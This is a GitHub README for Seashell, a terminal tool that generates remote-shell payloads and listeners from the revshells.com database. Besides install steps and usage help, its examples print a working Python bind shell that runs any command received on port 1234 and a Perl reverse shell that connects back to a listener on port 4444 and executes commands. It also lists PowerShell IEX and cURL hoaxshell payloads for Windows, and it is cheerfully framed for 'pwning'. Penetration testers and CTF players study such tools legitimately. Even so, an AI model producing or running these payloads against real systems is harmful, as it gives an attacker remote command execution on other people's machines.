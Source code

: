 # Seashell
Seashell is a python tool for generating shells on the go!
It uses the database of [revshells.com](https://revshells.com) and offers the same functionality. Only difference being, it's in your terminal!

# Credits
I want to thank [@0dayCTF](https://github.com/0dayCTF) and all the contributors of [reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator) for making this project possible.

# Installation
Seashell does not use **ANY** external libraries so you can install it in seconds :D
```bash
$ git clone https://github.com/lil-skelly/seashell
[ ]
$ cd seashell && python3 -m pip install .
```

- Added substitute_payload to configure payload, repaced -S with -T (type) and added custom shell support (-S).
- Updated README.md 
# Usage
```bash
usage: python3 -m seashell [-h] [--verbose] [-os {windows,mac,linux}] [-ip IP] [-p PORT]
                           [--type {reverse,bind,msfvenom,hoaxshell,listeners}]
                           [--shell {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}]
                           [-P PAYLOAD] [--interactive]
                           [term]

Seashell is a CLI 'reverse' shell generator utility. Happy hacking!

positional arguments:
  term                  Search term to filter payloads (use list to list payloads).

options:
  -h, --help            show this help message and exit
  --verbose, -V         Sets logging level to [DEBUG]
  -os {windows,mac,linux}
                        Filters results for [given] operating system
  -ip IP                Target IP
  -p PORT, --port PORT  Target port
  --type {reverse,bind,msfvenom,hoaxshell,listeners}, -T {reverse,bind,msfvenom,hoaxshell,listeners}
                        Filters results for [given] payload type
  --shell {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}, -S {sh,/bin/sh,bash,/bin/bash,cmd,powershell,pwsh,ash,bsh,csh,ksh,zsh,pdksh,tcsh,mksh,dash}
                        Shell to use
  -P PAYLOAD, --payload PAYLOAD
                        metasploit payload to use for listener [msfconsole]
  --interactive, -i     Enables interactive mode. Any arguments besides -V will be ignored!
```

Seashell filters your results based on the shell type and OS specified. 

Use `list` as the search `term` on both manual and interactive mode to get a list of all the payloads available, matching the specified OS/Shell type.

If you do not find your desired payloads, it might be because the payload you are looking for is not available for *linux* systems (the default OS used by seashell). ~ Example 3

After finding the ID of the payload you desire to use, you can:
- Repeat the command and use the ID as a search term if in manual mode
- Type `use ID` if in interactive mode

Seashell will then select the appropriate payload.

- Now you can also list listeners to host your payload. Same way as you would list reverse shell payloads etc.


### Special arguments
- You can specify a *shell* to use (i.e `/bin/bash` or `zsh`) with the `-S/--shell <SHELL>` command line argument.
- You can specify a metasploit payload to use in certain payloads with the `-P <PAYLOAD>` argument.

## Examples:

- Example 1 (manual mode)
```bash
$ python -m seashell -ip localhost -p 1234 -T bind python
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Python3 Bind         70
[*] PHP Bind             71

$ python -m seashell -ip localhost -p 1234 -T bind 70
[*] Welcome to the sea of shells! Happy pwning >:)
[+] Using <Python3 Bind>
python3 -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();
while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
- Example 2 (interactive mode):
```bash
$ python -m seashell -i
[+] Welcome to the sea of shells! Happy pwning >:)
~> Enter the IP: localhost
~> Specify the port (default: 4444): 
~> Filter by OS [LINUX, mac, windows]: 
~> Select payload type [REVERSE, bind, msfvenom, hoaxshell]:  
[SEARCH] perl
[*] Perl                 20
[*] Perl no sh           21
[*] curl                 13
[*] telnet               60
[SEARCH] use 21
[+] Using <Perl no sh>
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"127.0.0.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Example 3 (payload listing in manual mode)
```bash
$ python -m seashell -ip localhost -os windows -T hoaxshell list
[+] Welcome to the sea of shells! Happy pwning >:)
[*] Windows CMD cURL     94
[*] PowerShell IEX       95
[*] PowerShell IEX Constr Lang Mode 96
[*] PowerShell Outfile   97
[*] PowerShell Outfile Constr Lang Mode 98
[*] Windows CMD cURL https 99
[*] PowerShell IEX https 100
[*] PowerShell Constr Lang Mode IEX https 101
[*] PowerShell Outfile https 102
[*] PowerShell Outfile Constr Lang Mode https 103
```
